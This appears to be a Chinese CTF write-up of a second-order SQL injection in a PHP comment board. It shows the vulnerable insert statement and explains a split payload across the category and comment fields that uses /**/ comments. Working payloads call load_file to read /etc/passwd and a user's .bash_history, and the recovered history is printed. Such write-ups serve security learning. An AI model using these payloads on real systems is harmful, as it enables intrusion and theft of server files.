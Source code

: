通过审计发现这里存在二次注入的情况，comment模块中的`$category` 是直接从board中取出数据，没有过滤就直接放入sql语句中了，其中我们`$category`和`$content`都可控

```php
$sql = "insert into comment
    set category = '$category',
    content = '$content',
    bo_id = '$bo_id'";
$result = mysql_query($sql);
```

这个sql语句是换行的，所以我们无法用单行注释符，必须用/**/拼接，达到如下的效果

```php
$sql = "insert into comment
    set category = '123',content=user(),/*',
    content = '*/#',
    bo_id = '$bo_id'";
```

**在CATEGORY“处存入我们的恶意payload的前部分，在评论处补充后半部分**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200811172808425.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2h4aHhoeGh4eA==,size_16,color_FFFFFF,t_70)

我们学习一下师傅们的思路

1. 首先我们先读取/etc/passwd，就可以得知www用户的目录。payload如下

   ```
   category为: 123',content=(select( load_file('/etc/passwd'))),/*
   留言内容为：*/#
   ```

   ![web攻防世界_comment3](images/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C.assets/web%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C_comment3.png)

2. 然后读history文件：/home/www/.bash_history，可以看到网站管理员的历史命令。payload如下

   ```
   category为: 123',content=(select( load_file('/home/www/.bash_history'))),/*
   留言内容为：*/#
   ```

   ![web攻防世界_comment4](images/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C.assets/web%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C_comment4.png)

   ```
   cd /tmp/
   unzip html.zip 
   rm -f html.zip 
   cp -r html /var/www/ 
   cd /var/www/html/ 
   rm -f .DS_Store 
   service apache2 start 
   ```
